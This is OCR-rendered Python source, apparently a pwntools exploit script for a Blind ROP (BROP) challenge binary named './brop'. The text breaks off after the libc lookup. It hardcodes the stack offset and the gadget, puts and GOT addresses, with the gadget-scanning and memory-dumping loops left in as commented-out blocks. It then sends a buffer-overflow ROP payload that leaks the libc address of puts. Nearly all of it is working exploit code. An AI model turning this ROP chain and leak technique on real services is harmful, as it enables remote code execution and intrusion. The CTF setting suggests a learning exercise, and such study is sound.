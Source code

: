     if __name__ == '__main__':

        # length = get_stack_length()
        length = 72
        stop_gadget = 0x4006b6  # return to the start
        # stop_gadget = get_stop_addr(length)
        info('start to find brop gadgets:')
        brop_gadgets = 0x4007ba  # 0x4007ba for add rsp, 6
        '''
        while True:
            info('Testing 0x%x'%brop_gadgets)
            if get_brop_gadget(length, stop_gadget, brop_gadgets):
                if check_BROP_gadgets(brop_gadgets, length):
                    success('success in finding brop gadgets: 0x%x', brop_gadgets)
                    break
            else:
                brop_gadgets += 1
        '''
        pop_rdi_ret = brop_gadgets + 9
        # puts_addr = get_puts_addr(length, pop_rdi_ret, stop_gadget)
        # puts_addr = get_puts_start_addr(
        #    length, pop_rdi_ret, stop_gadget, puts_addr)
        puts_addr = 0x400560
        '''
        get puts_got
        result = b""
        addr = 0x400000
        while addr < 0x401000:
            info("starting to deal {}".format(hex(addr)))
            data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
            if data is None:
                continue
            else:
                result += data
            addr += len(data)
        with open('code', 'wb') as f:
            f.write(result)
        '''

       # retn_addr = get_retn_gadget(length, stop_gadget)

        retn_addr = 0x400541
        puts_got = 0x601018
        #sh = remote('127.0.0.1', 10001)
        context(log_level='debug')
        sh = process('./brop')
        sh.recvuntil('password?\n')
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(puts_got) + p64(retn_addr) + p64(puts_addr) + p64(stop_gadget)
        sh.sendline(payload)
        #data = sh.recvuntil(b'\nWelCome', drop=True)
        #puts_libc = u64(data.ljust(8, b'\x00'))
        puts_libc = u64(sh.recv(6).ljust(8, b'\x00'))
        libc = LibcSearcher('puts', puts_libc)